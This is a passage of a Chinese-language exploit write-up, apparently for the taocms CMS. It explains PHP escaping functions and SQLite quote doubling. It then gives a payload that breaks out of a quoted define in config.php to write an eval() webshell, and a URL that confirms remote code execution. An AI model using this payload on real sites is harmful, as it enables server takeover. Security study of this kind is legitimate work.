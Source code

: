   

1. `addslashes()`函数：在PHP中，`addslashes()`函数的主要作用是在预定义字符前添加反斜线。预定义字符包括单引号(')，双引号(")，反斜线(\)和NULL。

  

2. 将特殊字符转化为HTML实体，并将换行符转换为`<br/>`标签：在PHP中，可以使用`htmlentities()`函数将字符转换为HTML实体。这样做的目的是防止跨站脚本攻击（XSS），并确保文本在HTML文档中正确显示。例如，如果你的文本中包含`<`或`>`等字符，它们可能会被浏览器误解为HTML标签。通过将这些字符转换为HTML实体，你可以确保它们会被正确地显示为文本，而不是被解析为HTML代码。同样，`nl2br()`函数可以将字符串中的换行符转换为HTML的`<br/>`标签，这样在HTML文档中就可以正确地显示换行了。

  

3. 将单引号替换为两个单引号：在SQLite中，单引号是字符串的界定符。如果字符串中包含单引号，SQLite可能会将其误解为字符串的结束，从而导致错误。为了避免这种情况，将字符串中的单引号替换为两个单引号。这样，SQLite就会知道这是一个字面上的单引号，而不是字符串的结束。

  
  

<br>

<br>

  

在了解完这些代码在说什么之后，发现除了level 8这个default，其他都有较为严苛的限制。而在default中，有一个if else的限制，`Base::_addslashs()`不能绕过，就focus on **Sqlite**。

  

## Sqlite

  

构造payload：

<code>`\`';@eval($_REQUEST[1];/*</code>

  

$safeword之后

  

`\'';@eval($_REQUEST[1];/*`

  

与`congig.php`中WEBINFO define的`'`进行闭合，让PHP代码逃逸进而成功写入。

  

然后访问`http://taocms/config.php?1=phpinfo();`

getshell成功。

  

最后的`/*`也可以写成`//`

  

----

----
